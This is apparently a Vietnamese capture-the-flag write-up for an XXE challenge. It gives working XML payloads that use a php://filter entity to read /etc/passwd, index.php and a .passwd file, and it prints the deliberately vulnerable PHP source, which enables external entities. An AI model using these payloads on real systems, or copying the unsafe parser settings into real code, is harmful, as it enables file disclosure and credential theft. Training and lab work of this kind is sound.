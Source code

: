 # XML External Entity - Medium

Đây là một XXE challenge, và theo như những gì tác giả cho thì file sẽ được định dạng dưới RSS.

Thêm về RSS: [XML RSS](https://www.w3schools.com/xml/xml_rss.asp)

Giờ mình sẽ tạo một file RSS đơn giản:

```
<?xml version="1.0" encoding="UTF-8" ?>
<rss version="2.0">
<channel>
  <item>
    <title>hehe</title>
    <link>https://example.com</link>
    <description>hehe</description>
  </item>
</channel>
</rss>
```

Submit link đến file này, chúng ta sẽ thấy file được đọc lên:

![image](https://user-images.githubusercontent.com/83667873/148932726-1e447fdb-3402-410c-a953-259cd3a47ce0.png)

Trong challenge này ban đầu mình thử đọc file bằng một cách rất phổ biến là dùng file protocal `file:///etc/passwd` nhưng không thành công.

Nên mình thử chuyển đổi cách khác. Mình dùng:

```
php://filter/convert.base64-encode/resource=/etc/passwd
```
Tham khảo: [XXE Hacktricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd" >]>
<rss version="2.0">
<channel>
  <item>
    <title>&xxe;</title>
    <link>https://example.com</link>
    <description>hehe</description>
  </item>
</channel>
</rss>
```
Kết quả thì `/etc/passwd` không nằm trong allowed path. Anyway, chúng ta có thể sử dụng cách này để đọc file:

![image](https://user-images.githubusercontent.com/83667873/148935380-60c62896-6061-4f18-8333-7d9e65cd56e1.png)

Đọc file `index.php`:

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php" >]>
<rss version="2.0">
<channel>
  <item>
    <title>&xxe;</title>
    <link>https://example.com</link>
    <description>hehe</description>
  </item>
</channel>
</rss>
```

![image](https://user-images.githubusercontent.com/83667873/148935637-ff8a9856-3d7e-4874-b573-2b2c489c64c4.png)

Base64 decode nội dung trên:

```
<?php

echo '<html>';
echo '<header><title>XXE</title></header>';
echo '<body>';
echo '<h3><a href="?action=checker">checker</a>&nbsp;|&nbsp;<a href="?action=auth">login</a></h3><hr />';

if ( ! isset($_GET['action']) ) $_GET['action']="checker";

if($_GET['action'] == "checker"){

   libxml_disable_entity_loader(false);
   libxml_use_internal_errors(true);

   echo '<h2>RSS Validity Checker</h2>
   <form method="post" action="index.php">
   <input type="text" name="url" placeholder="http://host.tld/rss" />
   <input type="submit" />
   </form>';


    if(isset($_POST["url"]) && !(empty($_POST["url"]))) {
        $url = $_POST["url"];
        echo "<p>URL : ".htmlentities($url)."</p>";
        try {
            $ch = curl_init("$url");
            curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
            curl_setopt($ch, CURLOPT_TIMEOUT, 3);
            curl_setopt($ch, CURLOPT_CONNECTTIMEOUT ,0); 
            $inject = curl_exec( $ch );
            curl_close($ch);
            $string = simplexml_load_string($inject, null, LIBXML_NOENT);
            if ( ! is_object($string) || !$string || !($string->channel) || !($string->channel->item)) throw new Exception("error"); 

            foreach($string->channel->item as $row){
                print "<br />";
                print "===================================================";
                print "<br />";
                print htmlentities($row->title);
                print "<br />";
                print "===================================================";
                print "<br />";
                print "<h4 style='color: green;'>XML document is valid</h4>";
            }
        } catch (Exception $e) {
            print "<h4 style='color: red;'>XML document is not valid</h4>";
        }

    }
}

if($_GET['action'] == "auth"){
    echo '<strong>Login</strong><br /><form METHOD="POST">
    <input type="text" name="username" />
    <br />
    <input type="password" name="password" />
    <br />
    <input type="submit" />
    </form>
    ';
    if(isset($_POST['username'], $_POST['password']) && !empty($_POST['username']) && !empty($_POST['password']))
    {
        $user=$_POST["username"];
        $pass=$_POST["password"];
        if($user === "admin" && $pass === "".file_get_contents(".passwd").""){
            print "Flag: ".file_get_contents(".passwd")."<br />";
        }

    }

}


echo '</body></html>';
```
Quan sát trong file `index.php` chúng ta thấy rằng password của admin đang nằm trong file `.passwd`. Nên công việc chúng ta cần làm là đọc file `.passwd`:

![image](https://user-images.githubusercontent.com/83667873/148936003-c6772f74-2882-40f5-80e4-5841699ad094.png)

Base64 decode giá trị trên sẽ thu được password.



